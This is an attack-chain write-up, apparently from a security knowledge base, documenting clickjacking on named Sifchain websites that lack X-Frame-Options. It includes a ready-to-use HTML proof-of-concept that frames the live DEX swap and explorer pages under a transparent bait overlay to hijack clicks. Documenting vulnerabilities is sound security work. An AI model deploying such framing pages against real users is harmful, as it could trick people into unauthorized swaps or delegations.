

# Clickjacking Exploitation on Sifchain Websites via Missing X-Frame-Options

Multi-stage attack chain demonstrating a complete attack workflow.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 1 |
| Execution Time | ~2 minutes |
| Skill Level | Beginner |
| Complexity | Low |
| Impact Level | Medium |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- [[tools/Firefox-Browser]]

### Target Environment

- Target OS/Platform: Web browsers
- Required services/ports: HTTP/HTTPS on port 80/443
- Network access requirements: Internet access to Sifchain URLs

### Initial Access Requirements

- Credential requirements: None (public-facing sites)
- Network position: External attacker
- Prior access needed: None

## Detailed Attack Procedures

### Step 1: Reproduce Clickjacking
procedure: [[procedures/Reproduce-Clickjacking-on-Sifchain-Sites]]

**Objective**: Embed vulnerable Sifchain websites in iframes on a malicious page to demonstrate click hijacking potential, tricking users into performing unauthorized actions like swaps or delegations.

**Instructions**: Create a simple HTML file to embed the target sites in iframes and overlay transparent elements to capture clicks. Save the following as `clickjack.html` and open it in [[tools/Firefox-Browser]]:

```html
<!DOCTYPE html>
<html>
<head>
    <title>Clickjacking Demo</title>
    <style>
        iframe {
            position: absolute;
            top: 0;
            left: 0;
            opacity: 0.5;
            width: 100%;
            height: 100%;
        }
        .bait { /* Overlay for hijacking clicks */
            position: absolute;
            top: 100px;
            left: 100px;
            z-index: 1;
            background: transparent;
            width: 200px;
            height: 50px;
        }
    </style>
</head>
<body>
    <h1>Click the button below!</h1>
    <div class="bait" onclick="alert('Click hijacked!')">Fake Button</div>
    <iframe src="https://sifchain.finance/"></iframe>
    <!-- Add more iframes for other URLs like https://dex.sifchain.finance/#/swap -->
</body>
</html>
```

Adjust the iframe src to target specific vulnerable URLs such as `https://dex.sifchain.finance/#/swap` or `https://blockexplorer.sifchain.finance/transactions`. Load the page and verify the target site loads in the iframe without frame-busting.

**Expected Output**: The Sifchain site embeds successfully in the iframe, allowing overlay of malicious elements to hijack interactions.

**Success Indicators**:
- Target URL loads in iframe without errors or restrictions
- Clicks on overlaid elements trigger actions on the embedded site
- No X-Frame-Options header observed in browser dev tools (Network tab)

## Attack Chain Summary

### Key Achievements

1. Successful embedding of multiple Sifchain sites (e.g., finance dashboard, DEX swap page) in iframes
2. Demonstration of click hijacking leading to potential unauthorized transactions or data disclosure
3. Highlighted reputation risk to the platform from UI redressing attacks

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]]

### MITRE ATT&CK Tactics

- [[Initial Access]]

---
*Last updated: 2023-10-01T00:00:00Z*
